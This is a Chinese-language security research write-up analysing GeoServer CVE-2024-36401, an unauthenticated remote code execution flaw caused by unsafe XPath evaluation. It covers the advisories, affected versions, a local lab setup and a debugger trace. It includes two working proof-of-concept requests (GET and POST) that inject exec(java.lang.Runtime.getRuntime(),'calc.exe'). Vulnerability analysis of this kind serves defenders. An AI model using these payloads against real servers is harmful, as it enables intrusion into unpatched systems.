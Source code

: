 #  GeoServer 远程代码执行漏洞分析 (CVE-2024-36401)   
元亨-blckder02  中孚安全技术研究   2024-07-12 18:34  
  
一、前言  
  
**官方公告：**  
     
https://github.com/geoserver/geoserver/security/advisories/GHSA-6jj6-gm7p-fcvv  
  
https://github.com/geotools/geotools/security/advisories/GHSA-w3pj-wh35-fq8w  
  
**漏洞描述：**  
              
  
由于不安全地将属性名称评估为 XPath 表达式，多个 OGC 请求参数允许未经身份验证的用户通过针对默认 GeoServer 安装的特制输入进行远程代码执行 (RCE)。            GeoServer 调用的 GeoTools 库 API 会以不安全的方式将要素类型的属性名称传递给 commons-jxpath 库，该库在评估 XPath 表达式时可以执行任意代码。此 XPath 评估仅供复杂要素类型（即应用程序架构数据存储）使用，但也被错误地应用于简单要素类型，这使得此漏洞适用于所有GeoServer 实例。  
  
**影响版本：**  
GeoServer：           

     < 2.23.6             

     >= 2.24.0, < 2.24.4             

     >= 2.25.0, < 2.25.2  
  
二、环境搭建  
  
源码下载：  
https://github.com/geoserver/geoserver/archive/refs/tags/2.23.5.zip  
            war下载：  
https://sourceforge.net/projects/geoserver/files/GeoServer/2.23.5/geoserver-2.23.5-war.zip/download  
  
配置好 Tomcat 和 debug 。        ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoohYYpzYtHZxibXI0WVnVQJC6DLXS04jsEVPVHt1lZboPru32g7J9RdA/640?wx_fmt=png "")  
   
  
启动 Tomcat，访问  
http://127.0.0.1:8080/geoserver/web  
，可以看到自带的图层数据，环境搭建成功。  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoicuWIBseldcXmHfjZB7MbKOTPZOE8HV6olmzv79oib6u5M3HiaB6Eo74g/640?wx_fmt=png "")  
  
  
三、漏洞复现  
  
使用 GetPropertyValue 进行复现，POC：  
```
service=wfs&version=2.0.0&request=GetPropertyValue&typeNames=sf:archsites&valueReference=exec(java.lang.Runtime.getRuntime(),'calc.exe')
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVopnOrJnBQaic1xoQcdMRwhSosX3Q0gicztKJZPSH34HgspUb6ax3u57kg/640?wx_fmt=png "")  
  
或者：  
```
POST /geoserver/wfs HTTP/1.1            
Host: 127.0.0.1:8080            
Content-Type: application/xml                     
                          
<wfs:GetPropertyValue service='WFS' version='2.0.0'
xmlns:topp='http://www.openplans.org/topp'
xmlns:fes='http://www.opengis.net/fes/2.0'
xmlns:wfs='http://www.opengis.net/wfs/2.0'
valueReference='exec(java.lang.Runtime.getRuntime(),"calc.exe")'>
  <wfs:Query typeNames='topp:states'/>
</wfs:GetPropertyValue>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVo7c4rXYsd1cwPPDYon4AvIwFaZKMKh6nmAGHUOdWAXAPJKwm1v1iaIow/640?wx_fmt=png "")  
  
四. 漏洞分析  
  
在第一个漏洞公告  
中已经说明了可以通过WFS GetFeature、WFS GetPropertyValue、WMS GetMap、WMS GetFeatureInfo、WMS GetLegendGraphic 和 WPS Execute 请求利用此漏洞。           这些操作在《WFS参考》  
文档中可以找到使用方法，本文复现使用的操作为 GetPropertyValue，作用如下：             
  
https://www.osgeo.cn/geoserver-user-manual/services/wfs/reference.html![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoN6XqVWUu1K6HUs5kZhgw3O8DFLRqIGBrjaKzeExKndMglfpuOa6a0w/640?wx_fmt=png "")  
  
  
就是从 typeNames 指定的图层中检索 valueReference 属性的值。GeoServer 调用的 GeoTools 库 API 会以不安全的方式将该属性传递给 commons-jxpath 库，该库在评估 XPath 表达式时就导致任意代码执行。  
  
跟踪调试，从 Dispatcher.handleRequestInternal() 方法看起，处理请求逻辑。  
  
跟进 findService() 方法，看到根据 id 和 version 选出了符合条件的 Service 对象。 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoMMro0kQ4ODMPfPdInWYAeNVCzicJOQjZpV3ZYgabE5WlFZhJ4xicRiaKw/640?wx_fmt=png "")  
  
  
在 parseRequestKVP() 方法中，从 request 中获取了参数键值对，保存为 GetPropertyValueTypeImpl 对象。          ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoJ2hz5DgJ9td6rbJddQ4Zg99SrCqVo5ibMg7tohZibP1EickAickM4saLdg/640?wx_fmt=png "")  
   
  
然后执行请求。![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoujygUiabOEiaKoTcCLMSSSf7JpFQrdXH9oPhGq0icQl9Y8fmwZqKZ4YBQ/640?wx_fmt=png "")  
  
  
反射调用 getPropertyValue() 方法。           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVouMhkwxaQ9IflMmEG3OzfjY6j6UZ9vota1yeiag8jcRdibDmT4UZxXGdQ/640?wx_fmt=png "")  
   
  
跳到 DefaultWebFeatureService20.getPropertyValue()，实例化了一个 GetPropertyValue 对象，接着调用 GetPropertyValue.run()。           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoDMfll1AicbaKPk0VxQ7gxgiaNfKn8v0NU9lp7o24dywdZYW0C1wia1F3Q/640?wx_fmt=png "")  
  
  
跟进 FilterFactoryImpl.property()，实例化了一个 AttributeExpressionImpl 对象，将前端传入的   
valueReference  
 参数值赋给了  
this.attPath  
。           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoWXKiaRDWn2gYPmgg6ibRLMoonSD9WHcqw8L4jk1Viar3zhv9TkvaqTia5g/640?wx_fmt=png "")  
  
  
propertyName  
和  
propertyNameNoIndexes  
都为 AttributeExpressionImpl 对象，调用 evaluate() 评估属性描述符，也就是评估这个 XPath 表达式，符合漏洞描述中所说的。           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoImjSrE2dn9ZwcVCGTrjXWffN9o4QvrG21iaxSaribqsB8decGycB48Ag/640?wx_fmt=png "")  
   
  
跟进，调用 PropertyAccessors.findPropertyAccessors()，遍历找到可以处理当前评估操作的 PropertyAccessor 对象，获取到 FeaturePropertyAccessorFactory，正是第二个漏洞公告  
中提到的利用方法。  
  
然后调用 FeaturePropertyAccessorFactory.get()，传入  
this.attPath  
作为 XPath 表达式。  
this.attPath  
是前端传入的  
valueReference  
参数的值，也就是说这个位置的 XPath 表达式可控。![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVonEgHAA8oNon9yv8HhVVpshu7QSUTLUWnxyUfo28UfZhfWXOA5WWvtA/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVoVbAakZbml22kd5fTKvsrcaHTcnr9kndib5ibGP2cJOKgjnHicibZiaicDvUw/640?wx_fmt=png "")  
  
跟进，向  
context  
中注册了命名空间的名称及uri，然后迭代 XPath 指针。           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVo2Ljiao08E6Bnpa3qkEv11rKkakkJuibtsmbQNNA9Kwd43A0foUIWBFoQ/640?wx_fmt=png "")  
  
  
编译表达式，调用 compute() 进行计算。           ![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVouHLEAbdPupDGEYULmRegNonclW4nD4UNeZeQicnibGEcd2KGadvnClPQ/640?wx_fmt=png "")  
  
  
将  
this.args  
的计算转换后结果保存到  
parameters  
中，包含一个 Runtime对象和  
calc.exe  
字符串；   
  
然后获取到exec()  
方法，调用该方法执行命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57PDgz8BFiciaEWwcQhkcZ1MVox10t1rfjWr657ht4oTkuXKLPs0gB0icpagAWMpw9AxqvBwLibKu1MnCg/640?wx_fmt=png "")  
  
本文就简单跟踪一下命令执行的过程，更多细节及利用方式可参考：  
  
https://xz.aliyun.com/t/14991  
  
https://y4tacker.github.io/2024/07/03/year/2024/7/%E6%B5%85%E6%9E%90GeoServer-property-%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C-CVE-2024-36401/  
  
[https://mp.weixin.qq.com/s?__biz=Mzg2MTc1NDAxMA==&mid=2247484076&idx=1&sn=4064cb6a006f5cc454b7fb982e8ab9c6](https://mp.weixin.qq.com/s?__biz=Mzg2MTc1NDAxMA==&mid=2247484076&idx=1&sn=4064cb6a006f5cc454b7fb982e8ab9c6&scene=21#wechat_redirect)  
  
  
